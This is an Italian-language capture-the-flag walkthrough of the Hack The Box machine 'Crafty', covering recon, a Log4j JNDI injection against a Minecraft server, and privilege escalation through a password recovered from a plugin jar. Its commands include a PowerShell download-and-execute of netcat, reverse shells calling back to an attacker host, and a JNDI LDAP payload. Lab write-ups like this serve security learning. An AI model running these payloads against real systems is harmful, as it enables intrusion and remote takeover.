 # Macchina Crafty

IP vittima: 10.129.230.193 IP attacante: 10.10.14.245

## Recon

`sudo nmap -A -T 5 -p- 10.129.230.193 -oN porte oppure sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.230.193 -oG porte `
`nmap -p80,25565 -sC -sV 10.129.230.193 -oN servizi`

## Porte

```
80: Microsoft IIS httpd 10.0
25565: Minecraft 1.16.5 
```

## Porta 80

Per visitare la porta 80 occorre fare un reindirizzamento del DNS: sudo su echo 10.129.230.193 crafty.htb >> /etc/hosts

![[Pasted image 20251010194214.png]]

Facciamo un altro reindirizzamento per vistare play.crafty.htb echo 10.129.230.193 play.crafty.htb >> /etc/hosts ma che reindirizza a crafty.htb

## Porta 25565

searchsploit minecraft Minecraft Launcher 1.6.61 - Insecure File Permissions Privilege Escalation Non ci sono exploit validi

Ricerca su google di exploit per minecraft 1.16.5 si trova la vulenrabilità log4j

Ricerca su google poc github log4j minecraft exploit: [https://github.com/davidbombal/log4jminecraft](https://github.com/davidbombal/log4jminecraft)

Altra strada: a) ricerca su google: minecraft 1.16.5 client terminal sito: [https://github.com/MCCTeam/Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client) scaricare la release MinecraftClient-20250522-285-linux-x64 dare i permessi di esecuzione (chomd +x)

b) cercare su google rogue jndi sito: [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi) git clone --depth 1 [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi) Dopo aver installato maven (builder) se non già disponibile fare il build: mvn package

c) scaricare netcat per windows 32bit wget [https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64-32.exe](https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64-32.exe);

N.B. Si ipotizza che tutti i file scaricati siano nella stessa cartella

Passaggi per il foothold

1. terminale 1: lanciare con ./MinecraftClient-20250522-285-linux-x64 test ""
2. terminale 2: mettersi in ascolto sulla porta 4444 con "nc -lnvp 4444"
3. terminale 3: preparare un server web python sulla porta 3000 con "python -m http.server 3000" nella cartella che contiene netcat per windows scaricato al punto b (nc64-32.exe)
4. terminale 4: lanciare il server rogue jndi che si trova nella cartella rogue-jndi/target con il comando:  
    java -jar RogueJndi-1.1.jar --command "powershell iwr [http://10.10.14.245:3000/nc64-32.exe](http://10.10.14.245:3000/nc64-32.exe) -O c:\windows\temp\nc64-32.exe; c:\windows\temp\nc64-32.exe 10.10.14.245 4444 -e cmd.exe" --hostname "10.10.14.245"
5. terminale 1: nel server minecraft lanciare il comando: ${jndi:ldap://10.10.14.245:1389/o=reference}
6. terminale 2: la porta 4444 in ascolto riceve la shell cmd

![[Pasted image 20251010194302.png]]

La userflag si trova in C:\Users\svc_minecraft\Desktop\user.txt

## Scalata dei privilegi

Nella cartella C:\Users\svc_minecraft\server\plugins è presente il file playercounter-1.0-SNAPSHOT.jar Occorre creare una cartella c:\temp e copiare il file nella nuova cartella: mkdir c:\temp cd C:\temp copy c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar c:\temp\playercounter-1.0-SNAPSHOT.jar

Usare il comando: certutil -encode playercounter-1.0-SNAPSHOT.jar b64.txt Il comando prende il file binario playercounter-1.0-SNAPSHOT.jar, lo converte in testo Base64 (quindi una sequenza leggibile di caratteri ASCII) e salva il risultato nel file b64.txt.

Visualizzare il file creato con type b64.txt e copiare tutto il contenuto ad eccezione della riga iniziale -----BEGIN CERTIFICATE----- e quella finale -----END CERTIFICATE-----

In un altro terminale creare un file in cui inserire il contenuto copiato e poi decodificarlo da Base64 creando un nuovo file .jar con il comando: cat player.b64 | base64 -d >> player.jar

Ora il file potrà essere ispezionato ad esempio con jd-gui: jd-gui player.jar In htb.crafty.playercounter / htb.crafty.playercounter.Playercounter si trova la password: s67u84zKq8IXw

Ora occorre scaricare e unzippare lo strumento RunAsCs che dovrò essere caricato sulla macchina vittima wget [https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip](https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip) unzip RunAsCs.zip

Per scaricarlo sulla maccina vittima: powershell iwr [http://10.10.14.245:3000/RunasCs.exe](http://10.10.14.245:3000/RunasCs.exe) -O c:\temp\RunasCs.exe

Poi su un nuovo terminale mettiamoci ancora in ascolto su un altra porta con nc -lnvp 4500

poi nella cartella c:\temp lanciare il comando runascs.exe -l 2 administrator s67u84zKq8IXw "c:\windows\temp\nc64-32.exe 10.10.14.245 4500 -e cmd.exe"

Sul terminale in ascolto sulla porta 4500 si riceve la shell come amministratore

La rootflag si trova in C:\Users\Administrator\Desktop\root.txt
